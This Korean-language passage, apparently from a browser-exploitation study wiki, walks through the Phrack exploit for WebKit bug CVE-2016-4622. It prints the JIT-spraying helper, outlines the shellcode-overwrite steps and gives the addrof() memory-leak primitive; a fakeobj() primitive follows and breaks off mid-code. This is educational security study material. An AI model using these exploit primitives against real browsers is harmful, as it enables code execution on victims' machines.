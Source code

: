 CVE-2016-4622 프랙 문서의 공격 코드에서 JIT Spraying 을 활용한 함수가 makeJITCompiledFunction() 이다. 

```javascript
function makeJITCompiledFunction() {
    function target(num) {
        for (var i = 2; i < num; i++) {
            if (num % i === 0) {
                return false;
            }
        }
        return true;
    }
    jitCompile(target, 123);

    return target;
}
```

전체적인 공격 과정은 다음과 같다.

1. JIT 컴파일된 함수 객체를 얻는다.
2. 오프셋 계산을 통해 바이트코드가 위치한 주소를 얻는다. 오프셋은 운영체제 버전 혹은 웹킷 버전에 따라 다르므로 디버깅을 통해 확인해야 한다.
3. 해당 주소에 쉘코드를 overwrite 한다.
4. 함수를 호출하여 덮어쓴 쉘코드를 실행한다.


### 형식화 배열 : typed array

자바스크립트에서 형식화 배열(typed array)은 버퍼 및 뷰로 구현되어 있다.   
버퍼는 ArrayBuffer 로 구현하며, 크기만 정할 수 있고 데이터에 대한 접근은 할 수 없다.   
뷰를 통해 데이터를 입력하거나 수정할 수 있다. 뷰는 데이터 타입을 지정한다. 
![Typed Arrays](/uploads/how-2-browser-img/typed-arrays.png "Typed Arrays")
*출처 : https://developer.mozilla.org/ko/docs/Web/JavaScript/Typed_arrays*

### array 형의 메모리 구조

공격코드의 이해를 위해 TypedArray 가 데이터를 메모리에 어떻게 저장하는지를 이해할 필요가 있다. 상세한 내용은 [프랙 문서](https://wiki.null2root.org/%EB%84%90%EB%A3%A8%ED%8A%B8-%EB%82%B4%EB%B6%80-%ED%94%84%EB%A1%9C%EC%A0%9D%ED%8A%B8/how-to-browser/phrack)를 참조한다.

### addrof(), fakeobj()

addrof() - object 의 주소값을 리턴한다.  
fakeobj() - 인자로 주어진 주소 영역을 object 로 읽어들여 해당 object 를 리턴한다.

```javascript
function addrof(obj){
   var a = []; 
	 for (var i = 0; i < 100; i++){
	    a.push(i + 0.123);
		}; 
		var b = a.slice(0, {
		   valueOf: function() { 
			    a.length = 0; 
					a = [obj]; 
					return 100; 
				}
		});
		return Int64.fromDouble(b[4])
	};
	
function fakeobj(addr) {
    var a = [];
    for (var i = 0; i < 100; i++){
        a.push({});
    }
```